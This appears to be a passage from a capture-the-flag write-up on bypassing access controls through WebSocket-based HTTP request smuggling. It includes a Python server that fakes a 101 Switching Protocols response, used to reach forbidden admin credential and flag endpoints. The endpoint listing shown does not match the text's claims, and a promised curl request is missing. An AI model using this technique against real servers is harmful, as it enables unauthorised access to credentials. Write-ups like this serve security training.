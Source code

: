 ```bash
{[/info || /info.json],methods=[GET],produces=[application/json]}
{[/isOnline]}
{[/mappings || /mappings.json],methods=[GET],produces=[application/json]}
{[/metrics || /metrics.json],methods=[GET],produces=[application/json]}
{[/metrics/{name:.*}],methods=[GET],produces=[application/json]}
{[/token]}
{[/trace || /trace.json],methods=[GET],produces=[application/json]}
```

From this output, we can see that exists an endpoint `/admin-creds` and `/admin-flag`, which could potentially lead us to the admin credentials and the flag for this challenge. Trying to access these endpoints, we get a `403 Forbidden` response, which indicates that we do not have permission to access them directly.

## Exploiting Request Smuggling with WebSockets
From the services page, we saw a reference to a WebSocket connection, which is a protocol that allows for full-duplex communication channels over a single TCP connection. This can be exploited to perform HTTP request smuggling attacks if we have some way of manipulating the server's requet.

To exploit this, we will craft a webserver that will return the status code `101 Switching Protocols` when the server tries to connect to it, which will trick the server into thinking that it is a valid WebSocket connection, but since we are sending an invalid `websocket` key, the backend will not upgrade the connection and could lead to us acessing internal endpoints. The code to our webserver is as follows:

```python
import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 1:
    print("""
Usage: {}
    """.format(sys.argv[0]))
    sys.exit()

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.protocol_version = "HTTP/1.1"
       self.send_response(101)
       self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
```

We start our server and then we can use the `curl` command to send a request to the target server, which will be redirected to our server:

```bash
python server.py 5555
```

By sending our malicious request, we are able to see the `admin-flag` and `admin-creds` pages

![NON](file-20250529005002458.png)
![NON](file-20250529005158698.png)
![NON](file-20250529005251726.png)

